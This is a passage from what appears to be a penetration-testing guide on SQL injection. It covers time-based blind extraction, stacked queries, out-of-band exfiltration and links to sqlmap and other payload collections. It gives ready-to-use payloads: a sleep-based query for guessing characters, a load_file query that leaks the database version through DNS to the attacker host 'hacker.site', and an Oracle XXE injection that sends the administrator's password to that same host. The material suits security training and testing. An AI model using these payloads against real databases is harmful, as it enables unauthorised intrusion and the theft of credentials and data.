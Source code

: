 In this case there **isn't** any way to **distinguish** the **response** of the query based on the context of the page. But, you can make the page **take longer to load** if the guessed character is correct. We have already saw this technique in use before in order to [confirm a SQLi vuln](./#confirming-with-timing).

```sql
1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
```

## Stacked Queries

You can use stacked queries to **execute multiple queries in succession**. Note that while the subsequent queries are executed, the **results** are **not returned to the application**. Hence this technique is primarily of use in relation to **blind vulnerabilities** where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

**Oracle** doesn't support **stacked queries.** **MySQL, Microsoft** and **PostgreSQL** support them: `QUERY-1-HERE; QUERY-2-HERE`

## Out of band Exploitation

If **no-other** exploitation method **worked**, you may try to make the **database ex-filtrate** the info to an **external host** controlled by you. For example, via DNS queries:

```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
```

### Out of band data exfiltration via XXE

```sql
a' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hacker.site/"> %remote;]>'),'/l') FROM dual-- -
```

## Automated Exploitation

Check the [SQLMap Cheetsheat](sqlmap/) to exploit a SQLi vulnerability with [**sqlmap**](https://github.com/sqlmapproject/sqlmap).

## Tech specific info

We have already discussed all the ways to exploit a SQL Injection vulnerability. Find some more tricks database technology dependant in this book:

* [MS Access](ms-access-sql-injection.md)
* [MSSQL](mssql-injection.md)
* [MySQL](mysql-injection/)
* [Oracle](oracle-injection.md)
* [PostgreSQL](postgresql-injection/)

Or you will find **a lot of tricks regarding: MySQL, PostgreSQL, Oracle, MSSQL, SQLite and HQL in** [**https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

